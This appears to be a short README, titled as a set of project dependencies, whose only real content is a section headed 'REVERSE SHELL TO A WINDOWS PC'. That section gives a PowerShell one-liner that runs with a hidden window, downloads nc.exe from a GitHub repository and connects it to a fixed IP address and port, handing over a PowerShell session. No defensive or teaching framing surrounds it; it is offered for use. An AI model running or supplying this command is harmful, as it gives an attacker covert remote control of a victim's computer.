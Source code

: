 # mk_dependencies
Essential Dependencies for projects

# REVERSE SHELL TO A WINDOWS PC
```
powershell -windowstyle hidden Invoke-WebRequest -uri https://github.com/J3wker/PToolity/raw/master/Dependencies/nc.exe -outfile nc.exe & nc.exe 192.168.0.102 4545 -e powershell.exe

```
